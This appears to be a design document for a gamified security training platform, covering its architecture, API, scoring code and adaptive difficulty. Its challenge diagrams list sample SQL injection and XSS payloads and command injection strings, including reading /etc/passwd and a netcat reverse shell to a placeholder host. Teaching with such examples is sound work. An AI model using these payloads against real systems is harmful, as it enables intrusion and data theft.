# SecureTrainer - Comprehensive Security Challenge Implementation Design

## Overview

SecureTrainer is a web-based cybersecurity training platform that provides interactive, gamified learning experiences through security challenges including SQL injection, XSS, command injection, and authentication vulnerabilities. This design document outlines the complete implementation of challenge system deliverables with proper scoring, ranking, and database persistence.

## Technology Stack & Dependencies

### Backend Framework
- **Flask** - Python web framework with blueprints
- **MongoDB** - NoSQL database with pymongo driver
- **Flask-Mail** - Email functionality with SMTP integration
- **Flask-CORS** - Cross-origin resource sharing support

### Security & Authentication
- **bcrypt** - Password hashing and verification
- **QR Code** - Custom QR code generation and validation
- **Session Management** - Flask secure session handling
- **Input Validation** - Custom security measures

### AI/ML Components
- **scikit-learn** - Machine learning for adaptive difficulty
- **pandas/numpy** - Data processing and analysis
- **joblib** - Model persistence and loading

### Development Tools
- **pyzbar** - QR code scanning from images
- **PIL/Pillow** - Image processing
- **python-dotenv** - Environment variable management

## Architecture

### High-Level System Architecture



### Component Architecture



## Data Models & ORM Mapping

### User Data Model



### Challenge Data Model



### Analytics Data Model



## Business Logic Layer Architecture

### Challenge Management System

```mermaid
graph TB
    subgraph "Challenge Selection Logic"
        A[User Request] --> B{User Level Check}
        B --> C[Get Available Challenges]
        C --> D[AI Difficulty Prediction]
        D --> E[Filter by Category]
        E --> F[Return Challenge]
    end
    
    subgraph "Challenge Validation Logic"
        G[User Submission] --> H[Input Sanitization]
        H --> I[Answer Validation]
        I --> J{Correct Answer?}
        J -->|Yes| K[Calculate Score]
        J -->|No| L[Provide Hint]
        K --> M[Update User Progress]
        L --> N[Log Attempt]
    end
    
    subgraph "Scoring Logic"
        O[Base Points] --> P[Difficulty Multiplier]
        P --> Q[Speed Bonus]
        Q --> R[Hint Penalty]
        R --> S[Final Score]
        S --> T[Level Calculation]
        T --> U[Role Promotion Check]
    end
```

### User Progression System



## API Endpoints Reference

### Authentication Endpoints

| Method | Endpoint | Description | Request Schema | Response Schema |
|--------|----------|-------------|----------------|-----------------|
| POST | `/api/auth/register` | User registration | `{first_name, last_name, username, email, password, company, department}` | `{success, message, user_id, redirect_url}` |
| POST | `/api/auth/login` | QR code login | `FormData: qr_image` or `{qr_data}` | `{success, message, redirect_url, user}` |
| GET | `/demo-login` | Demo login for testing | - | Redirect to dashboard |
| GET | `/logout` | User logout | - | Redirect to login |

### Challenge Endpoints

| Method | Endpoint | Description | Request Schema | Response Schema |
|--------|----------|-------------|----------------|-----------------|
| GET | `/api/challenges/list` | Get all challenges | - | `{success, challenges}` |
| POST | `/api/challenges/start` | Start a challenge | `{challenge_id}` | `{success, challenge}` |
| POST | `/api/challenges/submit` | Submit solution | `{challenge_id, solution}` | `{success, correct, points_earned, new_score, new_level}` |
| POST | `/api/challenges/hint` | Get challenge hint | `{challenge_id}` | `{success, hint}` |
| GET | `/api/challenges/category/{category}` | Get challenges by category | - | `{success, challenges}` |

### User Progress Endpoints

| Method | Endpoint | Description | Request Schema | Response Schema |
|--------|----------|-------------|----------------|-----------------|
| GET | `/api/user/stats` | Get user statistics | - | `{success, stats}` |
| GET | `/api/user/progress` | Get user progress | - | `{success, progress}` |
| GET | `/api/leaderboard` | Get leaderboard | `{department?}` | `{success, rankings}` |
| GET | `/api/user/rank` | Get user rank | - | `{success, rank_info}` |

### AI Recommendation Endpoints

| Method | Endpoint | Description | Request Schema | Response Schema |
|--------|----------|-------------|----------------|-----------------|
| GET | `/api/ai/recommendations` | Get AI recommendations | - | `{success, recommendations, patterns}` |
| POST | `/api/ai/feedback` | Submit learning feedback | `{challenge_id, difficulty_rating, satisfaction}` | `{success, message}` |

## Challenge Implementation Details

### SQL Injection Challenges

```mermaid
graph TB
    subgraph "SQL Challenge Types"
        A[Authentication Bypass<br/>' OR '1'='1' --] --> B[Union-based Injection<br/>' UNION SELECT ...]
        B --> C[Blind SQL Injection<br/>' AND SLEEP(5) --]
        C --> D[Second-order Injection<br/>Stored payload execution]
    end
    
    subgraph "Validation Logic"
        E[User Input] --> F[Sanitize Input]
        F --> G[Check Solution Pattern]
        G --> H{Pattern Match?}
        H -->|Yes| I[Award Points]
        H -->|No| J[Show Hint]
    end
    
    subgraph "Interactive Demo"
        K[Demo Database] --> L[Vulnerable Query]
        L --> M[User Input Field]
        M --> N[Execute Query]
        N --> O[Show Results]
        O --> P[Explain Vulnerability]
    end
```

### XSS Challenge Implementation

```mermaid
graph TB
    subgraph "XSS Challenge Types"
        A[Stored XSS<br/>&lt;script&gt;alert(1)&lt;/script&gt;] --> B[Reflected XSS<br/>URL parameter injection]
        B --> C[DOM-based XSS<br/>innerHTML manipulation]
        C --> D[Filter Bypass<br/>&lt;svg onload=alert(1)&gt;]
    end
    
    subgraph "Demo Environment"
        E[Simulated Web App] --> F[Input Fields]
        F --> G[Vulnerable Rendering]
        G --> H[XSS Execution]
        H --> I[Impact Demonstration]
    end
    
    subgraph "Learning Objectives"
        J[Identify XSS Vectors] --> K[Understand Context]
        K --> L[Bypass Techniques]
        L --> M[Prevention Methods]
    end
```

### Command Injection Challenges

```mermaid
graph TB
    subgraph "Command Injection Types"
        A[Command Chaining<br/>; ls -la] --> B[Command Substitution<br/>$(whoami)]
        B --> C[Pipe Injection<br/>| cat /etc/passwd]
        C --> D[Reverse Shell<br/>nc -e /bin/sh IP PORT]
    end
    
    subgraph "Simulated Environment"
        E[Terminal Interface] --> F[Command Input]
        F --> G[Vulnerable Processing]
        G --> H[Command Execution]
        H --> I[Output Display]
    end
    
    subgraph "Security Concepts"
        J[Input Validation] --> K[Command Sanitization]
        K --> L[Privilege Separation]
        L --> M[System Hardening]
    end
```

## Scoring & Ranking System

### Score Calculation Algorithm

```python
def calculate_score(base_score, difficulty, completion_time, hints_used):
    """
    Calculate final score based on multiple factors
    
    Args:
        base_score: Base points for challenge (100)
        difficulty: Challenge difficulty (beginner/intermediate/advanced/expert)
        completion_time: Time taken in seconds
        hints_used: Number of hints requested
    
    Returns:
        Final calculated score
    """
    
    # Difficulty multipliers
    difficulty_multipliers = {
        'beginner': 1.0,
        'intermediate': 1.5,
        'advanced': 2.0,
        'expert': 2.5
    }
    
    # Apply difficulty multiplier
    score = base_score * difficulty_multipliers.get(difficulty, 1.0)
    
    # Speed bonus/penalty
    if completion_time < 30:
        score *= 1.5  # Speed bonus
    elif completion_time > 120:
        score *= 0.75  # Slow penalty
    
    # Hint penalty
    hint_penalty = hints_used * 0.1
    score *= (1 - hint_penalty)
    
    # Ensure minimum score
    return max(int(score), 10)
```

### Ranking System Implementation

```python
def update_user_ranking(user_id, score_delta):
    """
    Update user score and recalculate rankings
    """
    # Update user score
    user = get_user_by_id(user_id)
    new_score = user['score'] + score_delta
    new_level = calculate_level(new_score)
    new_role = get_role_for_level(new_level)
    
    # Update database
    db.users.update_one(
        {'_id': user['_id']},
        {
            '$set': {
                'score': new_score,
                'level': new_level,
                'role': new_role
            },
            '$push': {
                'score_history': {
                    'score': score_delta,
                    'timestamp': datetime.now(),
                    'reason': 'challenge_completion'
                }
            }
        }
    )
    
    # Update department rankings
    update_department_rankings(user['department'])
    
    # Check for promotions
    check_promotion_eligibility(user_id, new_score, new_level)
```

## Database Persistence Strategy

### Data Integrity Measures

```mermaid
graph TB
    subgraph "Write Operations"
        A[User Action] --> B[Validate Input]
        B --> C[Begin Transaction]
        C --> D[Update Primary Record]
        D --> E[Update Related Records]
        E --> F[Commit Transaction]
        F --> G[Log Operation]
    end
    
    subgraph "Backup Strategy"
        H[Real-time Backup] --> I[Hourly Snapshots]
        I --> J[Daily Full Backup]
        J --> K[Weekly Archive]
    end
    
    subgraph "Consistency Checks"
        L[Schema Validation] --> M[Referential Integrity]
        M --> N[Business Logic Validation]
        N --> O[Audit Trail]
    end
```

### Performance Optimization

| Collection | Index Strategy | Query Optimization |
|------------|---------------|-------------------|
| Users | `{email: 1}`, `{username: 1}`, `{score: -1}`, `{department: 1}` | Compound indexes for leaderboard queries |
| Challenges | `{category: 1}`, `{difficulty: 1}`, `{active: 1}` | Filter by active challenges first |
| ChallengeAttempts | `{user_id: 1, challenge_id: 1}`, `{attempt_time: -1}` | Time-series optimization |
| UserProgress | `{user_id: 1}`, `{category: 1}` | Aggregation pipeline optimization |

## AI-Powered Adaptive Learning

### Machine Learning Integration

```mermaid
graph TB
    subgraph "Feature Extraction"
        A[User Performance Data] --> B[Success Rate by Category]
        B --> C[Time Patterns]
        C --> D[Error Patterns]
        D --> E[Learning Velocity]
    end
    
    subgraph "Model Training"
        F[Historical Data] --> G[Feature Engineering]
        G --> H[Model Selection]
        H --> I[Training Pipeline]
        I --> J[Model Validation]
        J --> K[Model Deployment]
    end
    
    subgraph "Prediction Engine"
        L[User Context] --> M[Feature Computation]
        M --> N[Model Inference]
        N --> O[Difficulty Prediction]
        O --> P[Challenge Recommendation]
    end
```

### Adaptive Difficulty Algorithm

```python
def predict_difficulty(user_profile, challenge_category):
    """
    Predict appropriate difficulty level for user
    
    Returns: difficulty_level (beginner/intermediate/advanced/expert)
    """
    
    # Extract user features
    features = {
        'overall_level': user_profile['level'],
        'category_success_rate': get_category_success_rate(user_profile['id'], challenge_category),
        'recent_performance': get_recent_performance(user_profile['id']),
        'time_since_last_challenge': get_time_since_last_challenge(user_profile['id']),
        'learning_velocity': calculate_learning_velocity(user_profile['id'])
    }
    
    # Load trained model
    model = load_difficulty_model(challenge_category)
    
    # Make prediction
    predicted_difficulty = model.predict([list(features.values())])[0]
    
    return predicted_difficulty
```

## Security Implementations

### Input Validation & Sanitization

```python
def sanitize_challenge_input(user_input, challenge_type):
    """
    Sanitize user input based on challenge type
    """
    
    if challenge_type == 'sql_injection':
        # Allow SQL injection attempts for learning but log them
        return sanitize_for_logging(user_input)
    
    elif challenge_type == 'xss':
        # Allow XSS payloads for learning but escape for display
        return escape_for_display(user_input)
    
    elif challenge_type == 'command_injection':
        # Allow command injection for learning but sandbox execution
        return sanitize_for_sandbox(user_input)
    
    else:
        # General sanitization
        return general_sanitize(user_input)
```

### Session Security

```python
def secure_session_management():
    """
    Implement secure session handling
    """
    
    session_config = {
        'PERMANENT_SESSION_LIFETIME': timedelta(hours=24),
        'SESSION_COOKIE_SECURE': True,  # HTTPS only
        'SESSION_COOKIE_HTTPONLY': True,  # No JavaScript access
        'SESSION_COOKIE_SAMESITE': 'Lax',  # CSRF protection
        'SESSION_REFRESH_EACH_REQUEST': True  # Auto-refresh
    }
    
    return session_config
```

## Testing Strategy

### Unit Testing Framework

```mermaid
graph TB
    subgraph "Model Testing"
        A[User Model Tests] --> B[Challenge Model Tests]
        B --> C[Analytics Model Tests]
    end
    
    subgraph "Route Testing"
        D[Authentication Tests] --> E[Challenge API Tests]
        E --> F[Dashboard Tests]
    end
    
    subgraph "Integration Testing"
        G[Database Integration] --> H[Email Integration]
        H --> I[QR Code Integration]
    end
    
    subgraph "Security Testing"
        J[Input Validation Tests] --> K[Session Security Tests]
        K --> L[Authentication Tests]
    end
```

### Test Implementation Examples

```python
def test_challenge_scoring():
    """Test challenge scoring algorithm"""
    
    # Test basic scoring
    score = calculate_score(100, 'beginner', 45, 0)
    assert score == 100
    
    # Test difficulty multiplier
    score = calculate_score(100, 'advanced', 45, 0)
    assert score == 200
    
    # Test speed bonus
    score = calculate_score(100, 'beginner', 25, 0)
    assert score == 150
    
    # Test hint penalty
    score = calculate_score(100, 'beginner', 45, 2)
    assert score == 80

def test_user_progression():
    """Test user level progression"""
    
    # Create test user
    user_id = create_test_user()
    
    # Complete challenges and verify progression
    complete_challenge(user_id, 'sql_1', correct=True)
    user = get_user_by_id(user_id)
    assert user['score'] > 0
    assert user['level'] >= 1
    
    # Verify role progression
    add_score(user_id, 1000)
    user = get_user_by_id(user_id)
    assert user['role'] == 'Junior Analyst'
```

## Error Handling & Monitoring

### Error Management Strategy

```python
def handle_challenge_error(error_type, error_details, user_context):
    """
    Centralized error handling for challenges
    """
    
    error_handlers = {
        'validation_error': handle_validation_error,
        'database_error': handle_database_error,
        'ai_model_error': handle_ai_error,
        'email_error': handle_email_error
    }
    
    handler = error_handlers.get(error_type, handle_generic_error)
    return handler(error_details, user_context)

def log_user_activity(user_id, activity_type, details):
    """
    Log all user activities for monitoring
    """
    
    activity_log = {
        'user_id': user_id,
        'activity_type': activity_type,
        'details': details,
        'timestamp': datetime.now(),
        'session_id': session.get('session_id'),
        'ip_address': request.remote_addr
    }
    
    db.activity_logs.insert_one(activity_log)
```

### Performance Monitoring

```mermaid
graph TB
    subgraph "Application Metrics"
        A[Response Time] --> B[Error Rate]
        B --> C[User Activity]
        C --> D[Challenge Completion Rate]
    end
    
    subgraph "Database Metrics"
        E[Query Performance] --> F[Connection Pool]
        F --> G[Index Usage]
        G --> H[Storage Usage]
    end
    
    subgraph "System Metrics"
        I[CPU Usage] --> J[Memory Usage]
        J --> K[Disk I/O]
        K --> L[Network Traffic]
    end
    
    subgraph "Business Metrics"
        M[User Engagement] --> N[Learning Progress]
        N --> O[Challenge Success Rate]
        O --> P[Department Performance]
    end
```